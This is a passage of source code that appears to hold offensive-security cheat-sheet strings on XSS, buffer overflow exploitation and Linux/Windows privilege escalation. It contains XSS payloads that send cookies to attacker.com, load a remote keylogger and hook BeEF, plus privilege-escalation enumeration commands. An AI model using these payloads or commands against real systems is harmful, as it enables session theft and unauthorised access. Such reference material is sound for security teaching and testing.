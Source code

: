 STORED XSS:
- Persistent payload in database
- Profile fields, comment sections
- File upload with malicious HTML

DOM-BASED XSS:
- Client-side vulnerability
- Manipulate DOM elements
- Target: location.hash, document.URL

PAYLOAD EXAMPLES:
- Cookie stealing: <script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
- Keylogger: <script src="http://attacker.com/keylogger.js"></script>
- BeEF hook: <script src="http://beef-server:3000/hook.js"></script>
""",
                "buffer_overflow": """
BUFFER OVERFLOW EXPLOITATION:

STACK OVERFLOW:
1. Find vulnerable function (strcpy, gets, sprintf)
2. Determine buffer size and offset
3. Control EIP/RIP register
4. Place shellcode in memory
5. Redirect execution flow

EXPLOIT DEVELOPMENT:
- Use pattern_create.rb to find offset
- Bad character identification
- Encode shellcode (msfvenom)
- NOP sled for reliability

TOOLS:
- GDB with PEDA/GEF
- Immunity Debugger (Windows)
- Metasploit pattern tools
- Custom Python exploits

BYPASS TECHNIQUES:
- ASLR bypass with info leak
- Stack canary bypass
- ROP (Return Oriented Programming)
- DEP/NX bypass with ROP chains
""",
                "privilege_escalation": """
PRIVILEGE ESCALATION TECHNIQUES:

LINUX PRIVESC:
- SUID binaries: find / -perm -u=s -type f 2>/dev/null
- Kernel exploits: uname -a, searchsploit
- Sudo misconfigurations: sudo -l
- Cron jobs: cat /etc/crontab
- World-writable files: find / -writable -type f 2>/dev/null

WINDOWS PRIVESC:
- Unquoted service paths
- Service permissions: sc qc service_name
- Registry exploitation
- Token impersonation
- Always Install Elevated
